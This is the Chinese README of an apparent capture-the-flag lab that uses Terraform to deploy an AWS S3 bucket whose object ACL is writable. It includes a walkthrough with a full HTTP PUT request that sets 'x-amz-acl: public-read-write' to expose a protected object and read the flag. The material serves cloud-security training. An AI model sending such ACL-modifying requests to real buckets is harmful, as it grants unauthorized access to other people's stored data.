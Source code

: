 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

虽然你在实际环境中可能不会遇到，玩的愉快

## 部署环境

```bash
cd /TerraformGoat/aws/object_storage_service/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

输入yes之后，会自动的快速构建场景

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

我们看到的文件的列表，尝试访问index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read-write`来修改这个对象是否可以读或写

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

然后我们再获取一下这个对象的ACL，会发现，现在所有用户都可以对其进行读写

![image-20220426172506589](../../../images/image-20220426172506589.png)

随后在访问这个index.html，成功获取flag

![image-20220426172534934](../../../images/image-20220426172534934.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

输入yes即可

![image-20220426173554665](../../../images/image-20220426173554665.png)
